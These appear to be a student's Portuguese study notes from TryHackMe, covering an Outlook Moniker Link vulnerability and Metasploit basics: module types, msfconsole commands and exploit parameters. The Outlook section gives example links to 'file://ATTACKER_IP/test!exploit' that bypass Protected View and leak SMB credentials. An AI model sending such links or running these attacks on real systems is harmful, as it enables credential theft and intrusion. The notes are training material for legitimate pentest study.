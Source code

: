 # METASPLOIT - Básico

> Aqui vou compartilhar minhas notas pessoais sobre cada um dos temas aprendidos no camihno Pentester do TryHackMe

A vulnerabilidade analisada visa o seguinte:

O outlook rendeniza e-mails como HTML, também pode analisar hiperlinks como HTTP e HTTPS, mas também pode abrir urls especificando apps conhecidos como Moniker Links, normalmente o Outlook enviaria um aviso de segurança quando esses apps externos são acionados.

Ao utilizar `file://` Moniker LInk em nosso hyperlink, nós podemos intstruir o outlook a tentar acessar um arquivo, como um arquivo em uma rede.

`<a href="file://ATTACKER_IP/test">Click me</a>`

O protocolo SMB é usado, o que envolve o uso de credenciais locais para auteiticação, no entanto aparece um pop up bloqueando tal inteção.

A vulnerabilidade aqui existe modificando nosso hiperlink para incluir o ! caractere especial e algum texto em nosso Link de apelido que resulta em Ignorar Vista protegida do Outlook. Por exemplo: `<a href="file://ATTACKER_IP/test!exploit">Click me</a>`. 

# Introdução ao Metasploit

Ferramenta que pode suportar todas as fases de um engajamento de teste de penetração, desde a coleta de informações até a pós-exploração.

O Metasploit Framework é um conjunto de ferramentas que permitem a coleta de informações, varredura, exploração, desenvolvimento de exploits, pós-exploração e muito mais. Enquanto o uso primário do Metasploit Framework foca no domínio de testes de penetração, também é útil para pesquisa de vulnerabilidades e desenvolvimento de exploits. 

---

- msfconsole : A principal interface de linha de comando.
- Módulos : suportando módulos como exploits, scanners, payloads, etc.
- Ferramentas : Ferramentas autônomas que ajudarão na pesquisa de vulnerabilidades, avaliação de vulnerabilidade , ou teste de penetração. Algumas dessas ferramentas são msfvenom, pattern_create e pattern_offset. Abordaremos o msfvenom dentro deste módulo, mas pattern_create e pattern_offset são ferramentas úteis no desenvolvimento de exploits que estão além do escopo deste módulo. 

---

Quando usamos o Metasploit, vamos interagir principalmente com o metasploit console. Ele é iniciado no terminal com o comando `msfconsole`.

Com isso, poderemos interagir com os diferentes módulos do metasploit framework -> módulos são pequenos componentes dentro dele, criada para executar uma tarefa específica, como explorar uma vulnerabilidade, verificar um alvo ou executar um ataque de Força bruta. 

---

- Exploit: Um pedaço de código que usa uma vulnerabilidade presente no sistema de destino.
- Vulnerabilidade: Uma falha de projeto, codificação ou lógica que afeta o sistema de destino. A exploração de uma vulnerabilidade pode resultar na divulgação de informações confidenciais ou permitir que o invasor execute código no sistema de destino.
- payload: Um exploit se aproveitará de uma vulnerabilidade. No entanto, se quisermos que o exploit tenha o resultado que queremos (obter acesso ao sistema de destino, ler informações confidenciais, etc.), precisamos usar uma payload. Payloads são o código que será executado no sistema de destino. 

--- 

Recursos do metasploit:

## AUxiliary

qualquer módulo de suporte, como scanners, crawlers e fuzzers pode ser encontrado aqui

/usr/share/metasploit-framework/modules/auxiliary

---

## Encoders

Os codificadores permitirão que você codifique o exploit e a carga útil na esperança de que uma solução antivírus baseada em assinatura possa perdê-los. 

/usr/share/metasploit-framework/modules/encoders

---

## Evasão

Embora os codificadores codifiquem a carga útil, eles não devem ser considerados uma tentativa direta de evitar o software antivírus. Por outro lado, os módulos de "evasão" tentarão isso, com mais ou menos sucesso. 

/usr/share/metasploit-framework/modules/evasion

---

## Exploits

Exploits, ordenadamente organizados pelo sistema de destino. 

/usr/share/metasploit-framework/modules/exploits

---

## NOPs

NOPs (sem operação) não fazem nada, literalmente. Eles estão representados no Intel x86 CPU família com 0x90, seguindo o qual o CPU não fará nada por um ciclo. São usados frequentemente como um amortecedor conseguir tamanhos consistentes do payload. 

---


## Payloads

Códigos que serão executados no sistema de destino.

As explorações aproveitarão uma vulnerabilidade no sistema de destino, mas para alcançar o resultado desejado, precisaremos de uma carga útil. Exemplos podem ser; obter um shell, carregar um malware ou backdoor no sistema de destino, executar um comando ou iniciar o calc.exe como uma prova de conceito para adicionar ao relatório de teste de penetração. Iniciando a calculadora no sistema de destino remotamente, iniciando o calc.o aplicativo exe é uma maneira benigna de mostrar que podemos executar comandos no sistema de destino.

Executar o comando no sistema de destino já é um passo importante, mas ter uma conexão interativa que permita digitar comandos que serão executados no sistema de destino é melhor. Essa linha de comando interativa é chamada de "shell". Metasploit oferece a capacidade de enviar diferentes cargas úteis que podem abrir projéteis no sistema de destino. 

/usr/share/metasploit-framework/modules/payloads

---

Adaptadores (wrappers) — Camadas que transformam uma payload num formato de entrega diferente (ex.: um one-liner PowerShell). Úteis para facilitar execução, mas costumam deixar traços óbvios.

Singles (standalone) — Payloads autossuficientes que executam toda a ação sem baixar nada. Robustos em redes restritas, porém geralmente maiores e mais detectáveis.

Stagers — Pequenos payloads de bootstrap que estabelecem um canal (conexão) entre atacante e alvo para depois puxar o restante. Vantagem: tamanho inicial reduzido; desvantagem: dependem da rede.

Stages (etapas) — Componentes maiores baixados pelo stager que contêm a lógica completa (ex.: meterpreter). Permitem funcionalidades avançadas, mas o download é um ponto de detecção.

---

## Post - é para a pós-exploração

/usr/share/metasploit-framework/modules/post


---

# Rodando o metasploit

`msfconsole` abre a ferramenta.

Ele pode ser usando como CLI normalmente.

Ele suporta tabulações, então se eu começar a digitar algo e apertar tab, ele vai auto completando.

o módulo a ser utilizado, é selecionado com o `use (cmainho do modulo)`

`show options` ,pstra as opções que precisamos preencher

`back` volta ao diretório principal do metasploit

`info` dentro de um modulo mostra a visão geral sobre ele - também da pra fazer `info + caminhodomodulo`

da pra usar `search + palavra-chave` para buscar algo nos módulos.

Da pra pesquisar usando tipo também, com por ex: `search type:payload php` mostra todos os payloads para php.

---

Após escolher o módulo preferido, precisamos configurar seus parametros para rodar o ataque.

Fazemos isso com:

`set PARAMETER_NAME VALUE`

Sempre segue nessa linha - e vemos suas opções com o anteriormente falado `show options`

---

RHOSTS -> Endereço de destino / público ou privado.

RPORT -> a porta a qual queremos atacar.

Payload -> O payload que você usará com o exploit.

LHOST -> o endereço da minha máquina

LPORT -> a porta de acesso na minha máquina.

session -> pra pós-exploração.

---

`unset all` limpa todos os campos

`setg` diferente do `set`, deixa salvo globalmente para todos os módulos, então se eu trocar de um exploit para outro, o host configurado com `setg` continuará o mesmo.

---

Depois que estiver tudo configurado, podemos passar um `exploit` ou `exploit -z` para iniciar, o parametro `-z` abre uma sessão em segundo plano após o ataque.